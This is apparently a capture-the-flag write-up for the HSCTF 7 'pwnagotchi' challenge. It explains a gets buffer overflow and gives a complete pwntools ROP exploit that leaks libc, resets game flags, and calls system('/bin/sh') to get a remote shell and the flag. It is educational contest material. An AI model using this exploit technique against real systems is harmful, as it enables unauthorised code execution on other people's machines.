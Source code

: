 # HSCTF 7

## pwnagotchi

> 116
>
> Have fun with your new pwnagotchi!
>
> Connect to view your `\ (•-•) /` at `nc pwn.hsctf.com 5005`
>
> Author: meow
>
> [`pwnagotchi `](pwnagotchi)

Tags: _pwn_ _bof_ _rop_ _x86-64_ _remote-shell_


## Summary

From infamous `gets` to ROPing a second pass after leaking libc to land a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

GOT, BOF, and ROP exploitable.

    
### Decompile with Ghidra

![](main.png)

> I get one of these a week (_groan_).  I'm only writing this one up because there's a _gotcha_.

`gets` + no canary + no PIE = easy ROP.

`local_14` is `0x14` bytes from the return address.

Simple two-pass attack.  Leak libc and _return-to-main_ for a second pass to get a shell.

_So where's the gotcha?_

Line 16 has a global (`once`) that if set will prevent a second pass from getting to `gets`, _unless_ `sleepy` and `hungry` are reset.

Fortunately, the following two ROPable functions are provided:


```c
void eat(void)

{
  puts("om nom nom");
  hungry = 0;
  return;
}
```

```c
void zzz(void)

{
  int iVar1;
  
  puts("zzz...");
  iVar1 = rand();
  sleep(iVar1 % 3 + 1);
  sleepy = 0;
  return;
}
```

This is a minor twist on a frequent trope from undergrad/highschool CTFs.


## Exploit

### Attack Plan

1. First Pass: Leak libc and _return-to-main_
2. Second Pass: Get a shell, get the flag.


### First Pass: Leak libc and _return-to-main_

```python
#!/usr/bin/python3

from pwn import *

#p = process('./pwnagotchi')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('pwn.hsctf.com', 5005)
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')

binary = ELF('pwnagotchi')

context.update(arch='amd64')
rop = ROP('pwnagotchi')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

p.recvuntil('Enter your pwnagotchi\'s name:')

payload  = 0x14 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['eat'])
payload += p64(binary.symbols['zzz'])
payload += p64(binary.symbols['main'])

p.sendline(payload)

p.recvuntil('is not happy!\n')
_ = p.recv(6)
puts = u64(_ + b'\x00\x00')
print(hex(puts))
baselibc = puts - libc.symbols['puts']
print(hex(baselibc))
```

Please read [https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop](https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop) for details on how this exploit works, the only different here is the use of `puts` vs. `printf` to leak libc and the calls to `eat` and `zzz` to reset `speepy` and `hungry`.

IANS, smash the stack, pop rdi to leak the address of `puts`, compute the version and location of libc, eat, sleep, repeat.


### Second Pass: Get a shell, get the flag.

```python
p.recvuntil('Enter your pwnagotchi\'s name:')

payload  = 0x14 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(baselibc + next(libc.search(b"/bin/sh")))
payload += p64(baselibc + libc.symbols['system'])

p.sendline(payload)

p.interactive()
```

Again, please read [https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop](https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop) for details on how this second-half of the exploit works.


Output:

```
# ./exploit.py
[+] Opening connection to pwn.hsctf.com on port 5005: Done
[*] '/pwd/datajerk/hsctf7/pwnagotchi/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/hsctf7/pwnagotchi/pwnagotchi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'pwnagotchi'
0x7f9dda6789c0
0x7f9dda5f8000
[*] Switching to interactive mode


\ (•◡•) /

AAAAAAAAAAAAAAAAAAAA\xf4	@ is happy!
$ cat flag.txt
flag{theyre_so_cute}
```
